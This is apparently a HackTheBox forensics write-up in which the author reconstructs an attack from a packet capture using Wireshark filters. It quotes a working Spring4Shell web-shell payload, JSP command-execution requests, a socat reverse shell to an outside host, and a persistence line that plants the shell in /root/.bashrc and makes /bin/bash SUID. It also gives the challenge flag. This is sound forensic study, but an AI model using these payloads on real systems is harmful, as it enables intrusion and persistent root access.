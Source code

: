 ```yaml
---
id: a2vpkxlzyz7sqs2no5equsk
title: Wrong Spooky Season
desc: ''
updated: 1666463926160
created: 1666461382622
tags:
  - hackthebox
  - pcap
  - wireshark
  - forensics
---
```


- Looking for XSS:

  ```text
  http.content_type == "application/x-www-form-urlencoded"
  ```

  Returned 3 packets: 335, 353, and 387.

  Packet #353 is the most interesting, it has a data length of 775:

  ```text
  class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
  ```

- Ran lots of requests with Python:

  ```text
  http.user_agent == "python-requests/2.28.1"
  ```

- The `.jsp` file is a reverse shell:

  ```text
  http.request.uri contains ".jsp"
  ```

- Command execution in packet 416 via JSP:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=whoami
  ```

  Returned that the user is `root` in packet 418.

  Confirmed additionally in #426/428, which executed and got the response of `id`.

- Installed `socat` on the machine in packet 436:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=apt%20-y%20install%20socat
  ```

  Confirmed successful in packet 456.

- Ran `socat` in packet 464:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash
  ```

- Following the TCP packets after 464, the commands were:
  - `id`: `uid=0(root) gid=0(root) groups=0(root)`
  - `groups`: `root`
  - `uname -r`: `5.18.0-kali7-amd64`
  - `cat /etc/passwd`:

    ```log
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
    ```
  - `find / -perm -u=s -type f 2>/dev/null`:

    ```log
    /bin/su
    /bin/umount
    /bin/mount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/bin/newgrp
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/passwd
    /usr/bin/chsh
    ```
  - `echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`
  - `ls -lh`:

    ```log
    total 20K
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
    -rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
    drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
    ```

The flag is the reversed base64 string decoded:

```text
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
